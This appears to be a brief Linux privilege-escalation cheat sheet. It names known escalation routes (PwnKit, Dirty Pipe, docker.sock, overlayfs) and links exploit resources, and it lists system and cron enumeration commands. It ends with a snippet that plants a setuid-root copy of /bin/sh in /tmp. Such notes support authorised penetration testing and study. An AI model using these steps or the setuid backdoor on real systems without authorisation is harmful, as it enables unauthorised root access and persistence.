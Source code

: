GTFObins / LINUX

[https://gtfobins.github.io/](https://gtfobins.github.io/)

`Pwnkit`
`dirty pipe`
+w docker.sock
`reddit overlayfs`

```shell
(cat /proc/version || uname -a ) 2>/dev/null
```

```shell
lsb_release -a 2>/dev/null # old, not by default on many systems
```

```shell
cat /etc/os-release 2>/dev/null # universal on modern systems
```

```shell
echo $PATH
```

```shell
(env || set) 2>/dev/null
```

```shell
cat /proc/version
```

```shell
uname -a
```

```shell
searchsploit "Linux Kernel"
```

[https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)

```shell
crontab -l
```

```shell
cat /etc/crontab
```

```shell
ls -al /etc/cron* /etc/at*
```

```shell
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```

```bash
cp /bin/sh /tmp
chown root:root /tmp/sh
chmod +s /tmp/sh
```